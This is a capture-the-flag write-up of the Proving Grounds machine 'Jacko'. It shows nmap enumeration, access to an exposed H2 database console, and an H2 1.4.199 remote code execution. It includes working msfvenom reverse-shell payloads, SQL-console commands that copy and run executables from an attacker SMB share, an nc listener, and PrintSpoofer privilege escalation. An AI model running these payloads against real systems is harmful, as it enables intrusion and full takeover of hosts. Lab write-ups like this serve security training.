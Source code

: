 
---
layout: default
title: x003-Jacko
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---

## x003-Jacko
### Enumeration
#### NMAP 
```sh
nmap -A -T4 192.168.95.66 -p-
```
Resulting in : 
```
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
7680/tcp open  pando-pub?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2022-02-20T15:20:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```

#### Web

Accessing directly the IP on our browser we notice that a webserver is running and that an H2 Database might be present on the server.

The console web server is also exposed on port 8082 (from the NMAP scan) and the default user allow us to access the console. 

We notice the version of the H2 running : 1.4.199

### Access
After a research on searchsploit we found an exploit for RCE : 

```bash
searchsploit H2 1.4.199
```

![](attachments/Pasted%20image%2020220220163503.png)

After executing all the step in the exploit we get the expected result, the console give us the RCE : 
![](attachments/Pasted%20image%2020220220163601.png)

The payload must be updated in order to obtain a reverse shell.
The payload was created with msfvenom : 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.218 LPORT=80 -f exe -o reverse.exe
```
It was served using the samba server inside impacket : 
```bash
python3 /opt/impacket/examples/smbserver.py -smb2support Share .  
```

Then we can download it on our target :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

And run it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```


Once login in order to get access to the command we have to fix our PATH : 
```sql
set PATH=%PATH%;C:\Windows\System32;C:\Program Files
```

![](attachments/Pasted%20image%2020220220221531.png)

### Privilege Escalation

After executing winpeas, nothing suspicious was found. 

But after listing the software installed in order to check for potential privilege escalation, one software look possible to exploit : 
![](attachments/Pasted%20image%2020220301231633.png)
```sh
searchsploit PaperStream IP
```

![](attachments/Pasted%20image%2020220301230844.png)

Inside the exploit we have extra indication to generate the needed dll : 
```sh
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.218 LPORT=445
```

We expose our file using our Python SMB share and we use the following payload to download it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\shell.dll c:\\users\\tony\\shell.dll").getInputStream()).useDelimiter("\\Z").next()');
```

We update or exploit before downloading it :
```powershell
$PayloadFile = "C:\Users\tony\shell.dll"
```

Then :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\privesc.ps1 c:\\users\\tony\\privesc.ps1").getInputStream()).useDelimiter("\\Z").next()');
```

We wait for the privileged reverse shell : 
```sh
nc -lnvp 445
```


The reverse shell didn't show, we get back to common PrivEsc like PrintSpoofer : 

![](attachments/Pasted%20image%2020220301234220.png)

```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\PrintSpoofer64.exe c:\\users\\tony\\PrintSpoofer64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Then we execute the exe and here we are : 
![](attachments/Pasted%20image%2020220301234528.png)

And we could retrieve the flag : 
![](attachments/Pasted%20image%2020220301234625.png)
